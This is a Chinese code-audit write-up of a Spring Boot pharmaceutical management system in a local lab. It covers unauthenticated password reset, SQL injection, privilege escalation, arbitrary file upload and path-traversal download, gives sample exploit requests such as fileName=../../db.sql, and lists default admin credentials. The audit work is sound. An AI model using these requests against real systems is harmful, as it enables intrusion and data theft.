# 基于Spring boot的医药管理系统审计-先知社区

> **来源**: https://xz.aliyun.com/news/17687  
> **文章ID**: 17687

---

# 环境搭建

环境准备

```
IDEA 2024.2.3
Maven 3.9.9
JDK 1.8.0_65
```

使用IDEA打开项目，修改JDK和maven配置，等待Maven加载



修改配置文件：src/main/resources/application.yml

创建对应数据库，导入SQL文件



接着启动项目即可

后台登录页面

<http://localhost:8080/yiyaoguanlixitong/admin/dist/index.html>

```
管理员：admin/admin
员工：a1/123456
员工：a2/123456
员工：a3/123456
```



# 代码审计

## 鉴权逻辑

优先关注项目是否存在拦截器和过滤器



发现存在拦截器



代码分析

这里代码访问两部分，一部分是用户校验逻辑，一部分是允许未授权访问的逻辑，我们一个个看

用户鉴权逻辑

```
    // 根据token获取用户信息
    TokenEntity tokenEntity = null;
    if(StringUtils.isNotBlank(token)) {
        tokenEntity = tokenService.getTokenEntity(token);
    }
    
    // 如果用户信息存在，将用户相关信息存入session，并允许继续执行
    if(tokenEntity != null) {
        request.getSession().setAttribute("userId", tokenEntity.getUserid());
        request.getSession().setAttribute("role", tokenEntity.getRole());
        request.getSession().setAttribute("tableName", tokenEntity.getTablename());
        request.getSession().setAttribute("username", tokenEntity.getUsername());
        return true;
    }
    
    // 如果用户未登录，返回错误信息
    PrintWriter writer = null;
    response.setCharacterEncoding("UTF-8");
    response.setContentType("application/json; charset=utf-8");
    try {
        writer = response.getWriter();
        writer.print(JSONObject.toJSONString(R.error(401, "请先登录")));
    } finally {
        if(writer != null){
            writer.close();
        }
    }
    // 返回false，中断执行
    return false;
```

通过token校验用户身份，这里token的生成逻辑中存在随机数，伪造不了



未授权访问接口

```
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {

    // 获取请求的Servlet路径
    String servletPath = request.getServletPath();
    // 对特定路径进行放行，不需要进行后续的权限验证
    if("/dictionary/page".equals(request.getServletPath())  || "/file/upload".equals(request.getServletPath()) || "/yonghu/register".equals(request.getServletPath()) ){
        //请求路径是字典表或者文件上传 直接放行
        return true;
    }
    
    // 支持跨域请求
    response.setHeader("Access-Control-Allow-Methods", "POST, GET, OPTIONS, DELETE");
    response.setHeader("Access-Control-Max-Age", "3600");
    response.setHeader("Access-Control-Allow-Credentials", "true");
    response.setHeader("Access-Control-Allow-Headers", "x-requested-with,request-source,Token, Origin,imgType, Content-Type, cache-control,postman-token,Cookie, Accept,authorization");
    response.setHeader("Access-Control-Allow-Origin", request.getHeader("Origin"));

    // 检查处理方法上的IgnoreAuth注解
    IgnoreAuth annotation;
    if (handler instanceof HandlerMethod) {
        annotation = ((HandlerMethod) handler).getMethodAnnotation(IgnoreAuth.class);
    } else {
        // 如果处理器不是HandlerMethod实例，直接放行
        return true;
    }

    // 从header中获取token
    String token = request.getHeader(LOGIN_TOKEN_KEY);
    
    /**
     * 不需要验证权限的方法直接放过
     */
    if(annotation!=null) {
        return true;
    }
    

}
```

/dictionary/page和/file/upload路由，以及存在@IgnoreAuth注解的路由可以不需要token验证

## 未授权任意密码重置

通过未授权方法分析，全局搜索@IgnoreAuth注解



有很多接口存在未授权，这里挑个危害大点的演示



通过用户名重置密码



查看数据库



修改成功

## 未授权SQL注入

先判断数据库使用技术



采用mybatis

全局搜索`${`



看到有不少，我这里演示一处我测试后可以的

关注column参数，跳转到Dao层



接着往上，一步步到controller





通过url的columnName传入，这里通过参数名也可以看出是通过数据库表列查数据的，并且可以看到这个接口存在@IgnoreAuth，也就是不需要token验证，这里我测试下得先构造个正常请求然后放到sqlmap

数据包

```
GET /yiyaoguanlixitong/option/users/id* HTTP/1.1
Host: 192.168.242.1:8081
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=179AE5E24A3E8C5B70785BE1551E6E71
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Referer: http://192.168.242.1:8081/yiyaoguanlixitong/admin/dist/index.html
```



## 水平越权

登录普通用户，测试后台功能点



看到这个就忍不住测越权，抓包查看



根据路由定位代码



通过传入的用户id进行数据修改，没有看到校验用户id和当前用户id的校验，那么这里存在越权



测试修改id为2的用户



成功修改

## 任意文件上传

全局搜索关键词`upload`



这里获取我们上传文件的文件后缀后没有进行检测直接进行拼接，最后通过file.transferTo(dest);上传文件



成功上传



## 未授权任意文件下载

全局搜索关键词`download`



这里没有对我们传入的文件名进行检测，存在目录穿越，可以跨目录读文件，并且也是未授权接口

构造请求数据包测试

```
POST /yiyaoguanlixitong/file/download?fileName=../../db.sql HTTP/1.1
Host: 192.168.242.1:8081
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjAVOsCyJC8wB9fbq
Token: 
Cookie: JSESSIONID=179AE5E24A3E8C5B70785BE1551E6E71
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Origin: http://192.168.242.1:8081
Referer: http://192.168.242.1:8081/yiyaoguanlixitong/admin/dist/index.html
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Length: 290
```


